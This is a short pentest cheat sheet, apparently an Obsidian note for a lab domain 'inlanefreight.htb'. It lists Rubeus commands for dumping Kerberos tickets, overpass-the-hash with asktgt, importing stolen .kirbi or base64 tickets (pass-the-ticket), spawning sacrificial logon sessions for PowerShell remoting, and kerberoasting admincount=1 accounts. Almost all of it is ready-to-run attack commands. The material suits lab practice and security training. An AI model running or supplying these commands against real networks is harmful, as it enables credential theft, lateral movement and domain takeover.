 ```yaml
---
tags:
  - windows
  - kerberoasting
  - PtT
  - PtH
---
```

# Modules
## Dump Kerberos Ticket Data
```cmd-session
> Rubeus.exe dump /nowrap
```
`dump` to print the ticket in base64 (easy copy-paste)

# Pass the Key / OverPass the Hash
Use the module `asktgt` with username, domain, and hash (`/rc4`, `/aes128`, `/aes256`, or `/des`). The hash can be collected using [[Mimikatz]] `sekurlsa::ekeys`.
```cmd-session
> Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:<AES-KEY> /nowrap
```

Instead of retrieving the ticket in base64, we could use the flag `/ptt` to submit the ticket (TGT or TGS) to the current logon session.
```cmd-session
> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:<RC4-HASH> /ptt
```
## Alternate Methods
1. Using harvested keys in `.kirbi`
We can import the ticket (created using Mimikatz [[Mimikatz#Export Tickets|Export Tickets]] module) into the current session.
```cmd-session
> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```
2. Pass base64 ticket
	- Convert `.kirbi` to Base64 Format
```powershell-session
PS > [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```
Now we can pass this base64 instead of filename
```cmd-session
> Rubeus.exe ptt /ticket:<BASE64-TICKET>
```
>**Note:** Mimikatz requires administrative rights for Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

# Powershell Remoting with PtT
The option `createnetonly` creates a sacrificial process/logon session ([Logon type 9](https://eventlogxp.com/blog/logon-type-what-does-it-mean/)) which is hidden by default, but can be displayed using `/show` (equivalent of `runas /netonly`). This prevents the erasure of existing TGTs for the current logon session.
```cmd-session
> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
This should open a new CMD window from where we can execute Rubeus to request a new TGT, using `ptt`, to import the ticket into the current session and connect to the DC using PS Remoting.
```powershell
> Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:<AES-KEY> /ptt
> powershell
PS > Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:<AES-KEY> /ptt
```
# Kerberoasting
## Gather Stats
```powershell
PS > .\Rubeus.exe kerberoast /stats
```
## Retrieve TGS Tickets
- Request tickets of accounts with `admincount=1` (high value targets):
```powershell
PS > .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
## Usefule Flags
- `/tgtdeleg`: Retrieve only `RC4` encrypted ticket (Does not work on Server 2019+)
